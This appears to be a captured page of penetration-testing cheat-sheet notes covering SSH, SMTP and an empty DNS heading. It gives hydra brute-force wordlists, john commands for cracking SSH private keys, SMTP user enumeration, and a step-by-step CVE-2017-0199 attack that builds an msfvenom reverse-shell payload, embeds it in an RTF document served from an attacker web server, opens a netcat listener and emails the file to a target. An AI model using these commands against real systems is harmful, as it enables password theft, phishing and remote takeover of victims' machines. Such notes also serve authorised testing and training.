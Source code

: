 ### SSH

#### Bruteforce with hydra

Use any found usernames and use "-e nsr" for a less complicated brute force attack then with a wordlist

```
/usr/share/wordlists/rockyou.txt
/usr/share/seclists/Passwords/probable-v2-top12000.txt
/usr/share/seclists/Passwords/probable-v2-top1575.txt
/usr/share/seclists/Passwords/probable-v2-top207.txt
```

#### Cracking ssh id\_rsa keys

```
ssh2john id_rsa > crackme
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt crackme
```

```
john --show crackme
```

### SMTP

#### Enumerate users

Without Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP
```

With Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP -d example.com
```

#### [RTF Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)

1. msfvenom -p windows/shell\_reverse\_tcp LHOST=local-IP LPORT=443 -f hta-psh -o msfv.hta
2. python2 cve-2017-0199\_toolkit.py -M gen -t RTF -w MailFile.RTF -u http://local-WebServIP:Port/msfv.hta
3. python2 -m SimpleHTTPServer 80
4. nc -lnvp 443
5. sendEmail -f FromEmail@example.com -t ToEmail@example.com -u "Subject" -m "Message" -a MailFile.RTF -s TargetIP -v

### DNS
